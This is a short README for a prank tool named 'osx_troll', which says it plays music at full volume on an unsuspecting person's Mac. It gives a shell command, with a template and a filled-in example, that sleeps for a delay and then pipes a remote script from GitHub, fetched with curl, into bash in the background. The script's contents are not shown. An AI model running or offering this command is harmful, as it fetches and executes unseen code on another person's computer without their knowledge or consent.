 # osx_troll

Plays Music at full volume on a unsuspecting mac

sh -c "sleep (REPLACE ME WITH DELAY IN SECONDS); curl -s -L https://raw.githubusercontent.com/Me1955/osx_troll/main/run.sh | bash &" &

e.g. 
sh -c "sleep 10; curl -s -L https://raw.githubusercontent.com/Me1955/osx_troll/main/run.sh | bash &" &
# macostroll
